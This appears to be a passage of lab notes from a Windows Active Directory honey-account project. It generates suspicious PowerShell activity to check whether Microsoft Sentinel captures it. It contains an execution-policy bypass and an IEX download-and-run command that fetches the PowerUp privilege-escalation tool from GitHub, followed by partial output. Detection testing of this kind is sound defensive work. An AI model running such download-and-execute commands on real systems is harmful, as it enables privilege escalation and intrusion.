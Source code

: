 - ![](../../__attachments/Honey%20Accounts%20in%20Windows%20AD/Project%20Workspace/IMG-20231117224906772.png)
# Generate Suspicious Events with PowerUp
- First we will import a known attack tool "PowerUp". We will later ensure that Sentinel captured the Powershell invocations.
```powershell
Set-ExecutionPolicy bypass -force
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1') 
invoke-allchecks
```
- ![](../../__attachments/Honey%20Accounts%20in%20Windows%20AD/Project%20Workspace/IMG-20231117225041789.png) 
- Output
```
PS C:\Users\doadmin> Set-ExecutionPolicy bypass -force
PS C:\Users\doadmin> Set-ExecutionPolicy bypass -force
PS C:\Users\doadmin> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1')
PS C:\Users\doadmin> invoke-allchecks

[*] Running Invoke-AllChecks
[+] Current user already has local administrative privileges!


[*] Checking for unquoted service paths...


[*] Checking service executable and argument permissions...
```